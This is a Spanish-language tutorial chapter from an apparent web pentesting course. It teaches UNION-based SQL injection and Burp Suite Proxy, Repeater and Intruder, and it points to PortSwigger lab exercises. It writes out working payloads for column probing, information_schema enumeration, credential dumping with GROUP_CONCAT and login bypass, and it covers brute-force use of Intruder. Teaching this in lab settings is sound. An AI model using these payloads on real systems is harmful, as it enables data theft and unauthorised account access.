

# Capítulo 04: UNION-Based SQL Injection y Operativa con Burp Suite

[Inicio](../../README.md) | [Pentesting Web](../README.md) | [Anterior: Fundamentos de SQLi](../03-sql-injection-fundamentos-y-logica/README.md) | [Siguiente: Ingeniería Defensiva y Mitigaciones](../05-defensa-en-profundidad-y-mitigaciones/README.md)

| Campo | Valor |
|---|---|
| Estado | Disponible |
| Duración estimada | 4 a 5 horas |
| Nivel | Intermedio |
| Modalidad | Lectura técnica, laboratorio guiado e integración con Burp Suite / PortSwigger |
| Prerrequisitos | Capítulo 01 (HTTP y Proxies), Capítulo 02 (SQL) y Capítulo 03 (SQLi Básico) |

---

## Objetivos de aprendizaje

Al finalizar este capítulo serás capaz de:

- Dominar la mecánica de la inyección SQL basada en `UNION` para apilar consultas y extraer información de tablas arbitrarias.
- Ejecutar la metodología de determinación del número de columnas mediante `ORDER BY` y payloads `UNION SELECT NULL`.
- Identificar qué columnas devueltas por la consulta original son reflejadas en la respuesta de la aplicación y admiten tipos de datos de texto.
- Realizar una enumeración completa y estructurada del catálogo `information_schema` (bases de datos, tablas y columnas).
- Utilizar funciones de concatenación (`CONCAT`, `CONCAT_WS`, `GROUP_CONCAT`) para extraer múltiples campos en una sola columna visible.
- Operar con destreza los módulos fundamentales de Burp Suite: **Proxy**, **HTTP History**, **Repeater** e **Intruder**.
- Automatizar pruebas de inyección y ataques de diccionario analizando variaciones de código de estado, longitud de respuesta y tiempo.
- Resolver los laboratorios oficiales de SQL Injection de Web Security Academy aplicando la metodología aprendida.

---

## 1. Fundamentos de la inyección basada en UNION

La inyección SQL basada en `UNION` permite a un atacante anexar los resultados de una consulta arbitraria creada por él a los resultados de la consulta legítima ejecutada por la aplicación web.



Si la aplicación web muestra en pantalla las filas devueltas por la consulta original, la fila inyectada también será renderizada en la interfaz, permitiendo la exfiltración directa de datos confidenciales.

---

## 2. Metodología de explotación UNION paso a paso

Una inyección `UNION` exitosa no se ejecuta en un solo intento ciego; requiere seguir una metodología rigurosa de cinco fases:

```text
[ Fase 1: Determinar Columnas ]
             │
             ▼
[ Fase 2: Probar Tipos de Datos Compatibles ]
             │
             ▼
[ Fase 3: Extraer Metadatos del Servidor ]
             │
             ▼
[ Fase 4: Enumerar information_schema ]
             │
             ▼
[ Fase 5: Volcar Registros Confidenciales ]
```

---

### Fase 1: Determinar el número de columnas devueltas

Como vimos en el Capítulo 02, el operador `UNION` exige que ambas sentencias devuelvan **el mismo número exacto de columnas**. Si no coinciden, la consulta fallará con un error.

Existen dos técnicas primordiales para descubrir este número:

#### Técnica A: Fuzzing con `ORDER BY`
La cláusula `ORDER BY N` ordena el resultado por la columna en la posición $N$. Si $N$ supera el número total de columnas existentes, el motor arroja un error:

```text
' ORDER BY 1-- -   -> Respuesta Normal (OK)
' ORDER BY 2-- -   -> Respuesta Normal (OK)
' ORDER BY 3-- -   -> Respuesta Normal (OK)
' ORDER BY 4-- -   -> Error de Base de Datos / Error 500
```

> [!TIP]
> **Conclusión**: El último valor de $N$ que responde con éxito representa el número exacto de columnas devueltas por la consulta original (en este ejemplo: **3 columnas**).

#### Técnica B: Payloads con `UNION SELECT NULL`
Se inyectan sentencias `UNION SELECT` agregando valores `NULL` progresivamente. `NULL` es compatible con casi cualquier tipo de dato en la mayoría de motores:

```text
' UNION SELECT NULL-- -             -> Error (número incorrecto)
' UNION SELECT NULL, NULL-- -       -> Error (número incorrecto)
' UNION SELECT NULL, NULL, NULL-- - -> Respuesta Normal (¡Éxito! Son 3 columnas)
```

---

### Fase 2: Determinar qué columnas admiten texto y se reflejan en pantalla

Una vez descubierto el número de columnas (ej. 3), debemos verificar cuáles de ellas se reflejan en el HTML de la página y pueden alojar cadenas de texto (`VARCHAR`/`TEXT`):

```text
' UNION SELECT 'a', NULL, NULL-- -
' UNION SELECT NULL, 'a', NULL-- -
' UNION SELECT NULL, NULL, 'a'-- -
```

Si la página muestra el carácter `'a'` al probar en la segunda posición, sabemos que la **columna 2** es una columna de texto reflectiva en la que podremos extraer nuestros datos.

---

### Fase 3: Extracción de metadatos del entorno

Con la posición reflectiva identificada (por ejemplo, la columna 2 en una consulta de 3 columnas), reemplazamos el valor de prueba por funciones informativas del sistema:

```sql
' UNION SELECT NULL, @@version, NULL-- -
' UNION SELECT NULL, database(), NULL-- -
' UNION SELECT NULL, user(), NULL-- -
```

| Función / Variable | Motor compatible | Información obtenida |
|---|---|---|
| `database()` | MariaDB / MySQL | Nombre de la base de datos actualmente seleccionada. |
| `user()` / `current_user()` | MariaDB / MySQL | Usuario y host con el que el backend conecta a la BD (ej. `appuser@localhost`). |
| `version()` o `@@version` | MariaDB / MySQL / MSSQL | Versión exacta del motor (crucial para buscar CVEs específicos). |
| `current_database()` | PostgreSQL | Base de datos activa. |
| `v$version` | Oracle | Versión del gestor Oracle. |

---

### Fase 4: Enumeración estructurada de `information_schema`

Conociendo la versión y la base de datos actual (ej. `tienda`), consultamos el catálogo maestro del servidor para mapear la infraestructura:

#### 1. Listar todas las bases de datos disponibles
```sql
' UNION SELECT NULL, schema_name, NULL FROM information_schema.schemata-- -
```

#### 2. Listar las tablas de la base de datos objetivo (`tienda`)
```sql
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables WHERE table_schema = 'tienda'-- -
```
*Resultado obtenido*: `products`, `users`, `audit_logs`.

#### 3. Listar las columnas de la tabla de interés (`users`)
```sql
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_schema = 'tienda' AND table_name = 'users'-- -
```
*Resultado obtenido*: `id`, `username`, `password`, `email`, `role`.

---

### Fase 5: Volcado de credenciales y registros sensibles

Conociendo el nombre exacto de la tabla (`users`) y sus columnas (`username`, `password`), formulamos la extracción final:

```sql
' UNION SELECT NULL, username, password FROM users-- -
```

#### Concatenación de múltiples campos en una sola columna reflectiva
Si la aplicación solo refleja **una única columna** en pantalla pero necesitamos extraer múltiples campos simultáneamente, utilizamos funciones de concatenación de cadenas:

```sql
-- En MariaDB / MySQL:
' UNION SELECT NULL, CONCAT(username, ' ~ ', password), NULL FROM users-- -
-- O utilizando un separador con CONCAT_WS:
' UNION SELECT NULL, CONCAT_WS(':', id, username, password, role), NULL FROM users-- -
```

Si la aplicación solo renderiza la primera fila de la consulta, podemos agrupar todas las filas en una sola cadena mediante `GROUP_CONCAT`:

```sql
' UNION SELECT NULL, GROUP_CONCAT(username, ':', password SEPARATOR ' | '), NULL FROM users-- -
```

---

## 3. Burp Suite: Operativa esencial para auditorías web

**Burp Suite** (desarrollado por PortSwigger) es el estándar de la industria en herramientas de interceptación y pruebas de seguridad web. Permite situarse como intermediario entre el navegador y la aplicación para **observar, pausar, modificar y automatizar** mensajes HTTP.

```text
[ Navegador del Auditor ]  <--->  [ Burp Suite :8080 ]  <--->  [ Aplicación Objetivo ]
                                  ├── Proxy (Interceptación)
                                  ├── HTTP History (Registro)
                                  ├── Repeater (Modificación manual)
                                  └── Intruder (Automatización y Fuzzing)
```

---

### 3.1 Módulo Proxy e Intercept

El módulo **Proxy** captura las peticiones generadas por el navegador antes de que abandonen el equipo:

1. **Activar Interceptación**: En la pestaña `Proxy -> Intercept`, asegúrate de que el botón muestra `Intercept is on`.
2. **Navegador Integrado**: Utiliza `Open Browser` en la misma pestaña. Este navegador Chromium viene preconfigurado con el certificado de la CA de Burp Suite, evitando configuraciones manuales de red.
3. **Control de Flujo**:
   - **Forward**: Envía la petición actual hacia el servidor web.
   - **Drop**: Descarta la petición (el servidor nunca la recibe).
   - **Action**: Permite enviar la petición a otros módulos (`Send to Repeater`, `Send to Intruder`).

> [!NOTE]
> Si la página en el navegador parece quedarse "cargando indefinidamente", verifica Burp Suite: casi siempre se debe a que una petición está retenida en la pestaña `Intercept` esperando que pulses `Forward`.

---

### 3.2 Módulo HTTP History

Registra pasivamente **todas y cada una de las transacciones HTTP** cursadas a través del proxy, incluso cuando `Intercept is off`:

- **Barra de filtros**: Permite ocultar peticiones a dominios fuera de alcance (*Filter by search term* o *Filter by host*).
- **Inspección de peticiones pasadas**: Permite examinar cabeceras, cookies enviadas y respuestas recibidas de cualquier acción anterior.

---

### 3.3 Módulo Repeater: Modificación manual y comparación

Es la herramienta más utilizada durante la fase de validación de vulnerabilidades:

1. Desde `HTTP history` o `Intercept`, haz clic derecho sobre la petición de interés y selecciona **Send to Repeater** (atajo: `Ctrl + R`).
2. En la pestaña `Repeater`, puedes editar quirúrgicamente cualquier parámetro, cabecera o cuerpo de la petición.
3. Al pulsar **Send**, Burp transmite la petición inmediatamente y muestra la respuesta lado a lado.
4. **Métricas a comparar**:
   - **Status Code**: ¿Cambia de `200` a `500` al enviar una comilla?
   - **Length (Longitud)**: ¿Varía el tamaño de la respuesta? (Indica contenido adicional o error).
   - **Response time**: ¿La respuesta tarda varios segundos? (Indicio de inyecciones basadas en tiempo).

---

### 3.4 Módulo Intruder: Automatización y análisis de respuestas

El módulo **Intruder** permite automatizar el envío masivo de peticiones parametrizadas con listas de cargas útiles (*payloads*):

1. Enviar una petición a Intruder con `Ctrl + I`.
2. En la pestaña **Positions**:
   - Por defecto, Burp marca automáticamente posibles variables con el símbolo `§`. Pulsa **Clear §** para limpiar las marcas.
   - Selecciona el parámetro a auditar (ej. el valor de un campo) y pulsa **Add §** para definir la posición de inyección:
     ```http
     GET /searchusers.php?id=§1§ HTTP/1.1
     ```
3. **Attack Types (Modos de ataque)**:
   - **Sniper**: Utiliza una única lista de payloads y prueba una posición a la vez. Es el modo estándar para fuzzing de parámetros.
   - **Battering Ram**: Inserta el mismo payload simultáneamente en todas las posiciones marcadas.
   - **Pitchfork**: Utiliza múltiples listas y avanza en paralelo por cada una.
   - **Cluster Bomb**: Prueba todas las combinaciones posibles de múltiples listas (ideal para fuerza bruta de usuario + contraseña).
4. En la pestaña **Payloads**:
   - Define el tipo de payload (ej. `Numbers` para probar números del 1 al 20, o `Simple list` para probar payloads de inyección SQL).
5. En la pestaña **Options / Settings**:
   - **Grep - Match**: Permite buscar cadenas específicas en las respuestas (ej. buscar la palabra `error`, `admin` o `syntax`).
6. Pulsar **Start Attack**:
   - Analiza la tabla de resultados ordenando por **Length**, **Status** o la columna de coincidencia grep. La fila con longitud o estado anómalo revela el hallazgo.

---

## 4. Laboratorios prácticos de Web Security Academy (PortSwigger)

Para consolidar estas habilidades en entornos reales y gratuitos, accede a la plataforma **PortSwigger Web Security Academy**:

👉 [Web Security Academy - SQL Injection](https://portswigger.net/web-security/sql-injection)

### Laboratorio 1: Vulnerabilidad en la cláusula WHERE (Datos ocultos)
- **Objetivo**: Modificar el filtro de categoría para mostrar productos que no están lanzados (`unreleased`).
- **Técnica**: Subversión booleana con `' OR 1=1 -- -`.

### Laboratorio 2: Bypass de inicio de sesión
- **Objetivo**: Iniciar sesión como el usuario `administrator` sin conocer su contraseña.
- **Técnica**: Inyección en el campo de usuario: `administrator' -- -`.

### Laboratorio 3: UNION SQLi (Determinar número de columnas)
- **Objetivo**: Descubrir cuántas columnas devuelve la consulta del filtro de categoría.
- **Técnica**: Probar payloads incrementales `' ORDER BY 1-- -`, `' ORDER BY 2-- -`, etc., o `' UNION SELECT NULL, NULL...`.

### Laboratorio 4: UNION SQLi (Encontrar columna compatible con texto)
- **Objetivo**: Identificar qué columna permite proyectar una cadena alfanumérica y reflejar el valor solicitado por el reto.
- **Técnica**: Probar `' UNION SELECT 'valor', NULL-- -` y `' UNION SELECT NULL, 'valor'-- -`.

### Laboratorio 5: UNION SQLi (Extracción de datos de otras tablas)
- **Objetivo**: Extraer la tabla `users` con sus columnas `username` y `password`, e iniciar sesión como `administrator`.
- **Técnica**: `' UNION SELECT username, password FROM users-- -`.

---

## Preguntas de autoevaluación

1. ¿Por qué es necesario determinar el número exacto de columnas antes de intentar extraer datos con una inyección `UNION`?
2. Si una consulta vulnerable devuelve 4 columnas pero solo la tercera se imprime en el HTML de la página, ¿cómo formularías la inyección para extraer el usuario actual y la versión de MariaDB?
3. ¿Cuál es la utilidad de la función `GROUP_CONCAT()` en escenarios donde la aplicación web únicamente muestra el primer registro del conjunto de resultados?
4. Explica la diferencia operativa entre el módulo **Repeater** y el módulo **Intruder** de Burp Suite, y en qué momento del análisis debe utilizarse cada uno.
5. Durante un ataque con Intruder en modo *Sniper*, ¿en qué columnas de la tabla de resultados debemos fijarnos para identificar un resultado exitoso o anómalo?

---

[Anterior: Fundamentos de SQLi](../03-sql-injection-fundamentos-y-logica/README.md) | [Volver al Índice de Pentesting Web](../README.md) | [Siguiente: Ingeniería Defensiva y Mitigaciones](../05-defensa-en-profundidad-y-mitigaciones/README.md)
